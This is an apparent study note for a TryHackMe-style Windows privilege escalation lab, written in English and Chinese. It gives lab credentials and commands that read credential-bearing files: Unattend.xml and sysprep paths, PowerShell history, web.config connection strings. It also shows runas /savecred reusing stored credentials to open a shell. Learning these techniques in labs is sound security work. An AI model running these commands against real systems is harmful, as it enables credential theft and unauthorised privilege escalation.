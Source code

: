 ## Windows Privilege Escalation : 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> User: thm-unpriv
		--> Password: Password321
		--> ip: 10.10.230.106
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> RDP :  
		--> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.230.106 /u:thm-unpriv /p:'Password321'
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Unattended Windows Installations (無人值守的 Windows 安裝)
		--> 允許透過網路將單一作業系統映像部署到多台主機
		--> 可能儲存在 以下位置
			C:\Unattend.xml
			C:\Windows\Panther\Unattend.xml
			C:\Windows\Panther\Unattend\Unattend.xml
			C:\Windows\system32\sysprep.inf
			C:\Windows\system32\sysprep\sysprep.xml
			
		-->憑證:
			 <Credentials>
			    <Username>Administrator</Username>
			    <Domain>thm.local</Domain>
			    <Password>MyPassword123</Password>
			</Credentials>
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Powershell 歷史
		--> cmd.exe : 
			--> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
		--> Powershell:
			--> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 儲存的 Windows 憑證
		--> cmdkey /list
		--> runas /savecred /user:mike.katz cmd.exe
			=> that a shell 
			=> C:\Windows\system32>
				--> cd ../../Users/mike.katz/Desktop
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Internet 資訊服務  (IIS )配置
		--> IIS Windows 安裝上的預設 Web 伺服器
		--> 檔案 : web.config
			--> C:\inetpub\wwwroot\web.config
			--> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
			--> 儲存資料庫的密碼或設定的身份驗證機制
		
		--> find database connection strings :
			=> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
		